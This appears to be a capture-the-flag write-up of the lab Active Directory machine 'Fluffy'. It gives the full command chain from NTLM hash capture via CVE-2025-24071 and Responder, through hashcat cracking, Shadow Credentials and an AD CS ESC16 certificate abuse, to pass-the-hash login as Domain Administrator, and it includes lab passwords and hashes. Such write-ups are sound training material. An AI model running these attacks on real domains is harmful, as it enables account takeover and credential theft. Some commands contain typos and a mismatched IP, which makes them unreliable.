## Executive Summary

This document analyzes the penetration test conducted against the "Fluffy" domain controller (DC01.fluffy.htb, IP: 10.129.20.6). The attack chain exploited multiple Active Directory vulnerabilities, ultimately achieving Domain Administrator access through certificate-based attacks.


```bash
sudo nmap -sV -sC 10.129.20.6 -p- -A -vv
```

From the nmap scan we started exploiring smb using rpclient
```bash
rpcclient -U 'j.fleischman%J0elTHEM4n1990!' DC01.fluffy.htb
```
found some user which can be added to user.txt file
```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ca_svc] rid:[0x44f]
user:[ldap_svc] rid:[0x450]
user:[p.agila] rid:[0x641]
user:[winrm_svc] rid:[0x643]
user:[j.coffey] rid:[0x645]
user:[j.fleischman] rid:[0x646]
rpcclient $> 

```



other information gather using rpcclient



Downloaded the pdf and other zip files for inspection




the pdf contains some vulnerablities mentioned that need to be accomadated before the time period One of them is CVE-2025-24071, a Windows File Explorer Spoofing Vulnerability, which allows attackers to retrieve the NTLM hash of users upon extracting a ZIP file with a crafted .library-ms file

Before executing the PoC lets use bloodhound for enumeration
```bash
bloodhound-python -u j.fleischman -p 'J0elTHEM4n1990!' -d fluffy.htb -dc DC01.fluffy.htb -ns 10.129.20.6 -c All
```

Current User Doesn't have much right on other domain or user 



from the github readme file its mentioned how to use the exploit and export it to the smb with given credential 



uploaded the exploit to the smb share using **smbclient**
used the responder to capture NTLM hash from the user **agila** 

```bash
sudo responder -I tun0
```




Save this hash text file try to brute force hash using hashcat to find the password
```bash
hashcat agila_hash.txt /usr/share/wordlists/rockyou.txt
```
**p.agila:prometheusx-303**

Rerunning the bloodhound
```bash
bloodhound-python -u p.agila -p 'prometheusx-303' -d fluffy.htb -dc DC01.fluffy.htb -ns 10.129.20.6 -c All
```




Since p.agila is the member of service accounts which has an **GenricAll** right `service account managers`

Adding p.agila to the targeted group **service accounts**
```bash
 net rpc group addmem "service accounts" "p.agila" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S "10.129.20.6"

```
Verifying the user been added succesfully
```bash
net rpc group members "Service Accounts" -U "fluffy.htb"/"p.agila"%"prometheusx-303" -S 10.129.20.6

```



**Agila** has been added to service account group 


Service Accounts have Genric rights over winrm_svc ,ladp_Svc as well ca_svc




A targeted Kerberoasting attack was conducted against all three service accounts, resulting in the successful extraction of Kerberos service ticket hashes. The obtained hashes are being brute-forced using Hashcat to recover plaintext credentials.
```bash
python3 targetedKerberoast.py -v -d "fluffy.htb" -u "p.agila" -p "prometheusx-303"
```



```bash
hashcat -m 13100 winrmhash.txt /usr/share/wordlists/rockyou.txt 
```

Targeted Kerberoasting hashes were obtained, but cracking with Hashcat (rockyou.txt) was unsuccessful.

Since the user p.agila is a member of the Service Account group, it was possible to abuse delegated permissions over service accounts. Using this access, a Shadow Credentials attack was performed against the winrm_svc and ca_svc service accounts.

First, a malicious Key Credential was added to the target service account using pywhisker, granting certificate‑based authentication without knowing the account password. A Kerberos Ticket Granting Ticket (TGT) was then requested via PKINIT using the generated certificate.

```bash
python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "winrm_svc" --action "add"
```




```bash
python3 gettgtpkinit.py -cert-pfx KjJiPMl4.pfx -pfx-pass C1zLZGkmLpKuqKf7dwSh fluffy.htb/winrm_svc winrm_svc.ccache

```

The same technique was repeated against the **ca_svc** account:
```bash
python3 pywhisker.py -d "fluffy.htb" -u "p.agila" -p "prometheusx-303" --target "ca_svc" --action "add"
```



The Kerberos ticket cache was then loaded into the current session:
```bash
export KRB5CCNAME=winrm_svc.ccache
```
Finally, the validity of the Kerberos authentication was verified by attempting a WinRM connection using evil‑winrm. Although interactive WinRM access was restricted due to Kerberos configuration issues, possession of a valid TGT confirmed successful compromise of the service account.

Using the different tool for shadow credential attack which reveals hash PtH  for logging in

```bash
certipy-ad shadow auto -username p.agila@fluffy.htb -password 'prometheusx-303' -account ca_svc

```

Verifying the hash with crackmapexec 







We will doing same for **winrm_svc** account
```bash
crackmapexec winrm 10.129.20.6 -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```



and the winrm is pawned using crackmapexec
```bash
evil-winrm -i DC01.fluffy.htb -u winrm_svc -H 33bd09dcd697600edf6b3a7af4875767
```

Privilege escalation from the user to Admin 



It strongly suggests **AD CS is installed and exposed** on the DC 

```bash
certipy-ad find -u ca_svc@fluffy.htb -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip 10.129.20.6 -vulnerable
```




```bash
[!] Vulnerabilities
      ESC16                             : Security Extension is disabled.
    [*] Remarks
      ESC16                             : Other prerequisites may be required for this to be exploitable. See the wiki for more details.
Certificate Templates                   : [!] Could not find any certificate templates
```

The output confirms the **ESC16 vulnerability**, indicating the extension `1.3.6.1.4.1.311.25.2` is **disabled**, which weakens the binding between certificates and user accounts  a prerequisite for **abusing ESC16**.

for more information please refer this medium page `https://medium.com/@muneebnawaz3849/ad-cs-esc16-misconfiguration-and-exploitation-9264e022a8c6`

```bash
ertipy-ad account -u p.agila@fluffy.htb -p "prometheusx-303" -dc-ip 10.129.20.6 -upn 'administrator' -user 'ca_svc' update
```




ca_svc can request for certerifcate containing UPN of administrator whihc can authentication

```bash
certipy-ad req -u 'ca_svc' -hashes ca0f4f9e9eb8a092addf53bb03fc98c8 -dc-ip '10.10.11.69' -target 'DC01.fluffy.htb' -ca 'fluffy-DC01-CA' -template 'User'
```



this will save the certificate for the administrator user in administrator.pfx 

```bash
certipy-ad account -u p.agila@fluffy.htb -p "prometheusx-303" -dc-ip 10.129.20.6 -upn 'ca_svn@fluffy.htb' -user 'ca_svc' update
```
Reverting the UPN change back to the userPrincipleName back to prevent suspicion or disruption.

Authentication using the stolen Certificate 
```bash
certipy-ad auth -pfx administrator.pfx -domain fluffy.htb -dc-ip 10.129.20.6 
```




Authentication using the hash with evil-winrm

```bash
evil-winrm -u 'Administrator' -H 8da83a3fa618b6e3a00e93f676c92a6e -i DC01.fluffy.htb
```

## Conclusion

The penetration test successfully achieved Domain Administrator access through a chain of Active Directory misconfigurations. The attack path leveraged modern AD exploitation techniques including NTLM capture, Shadow Credentials, and AD CS ESC16 vulnerabilities.
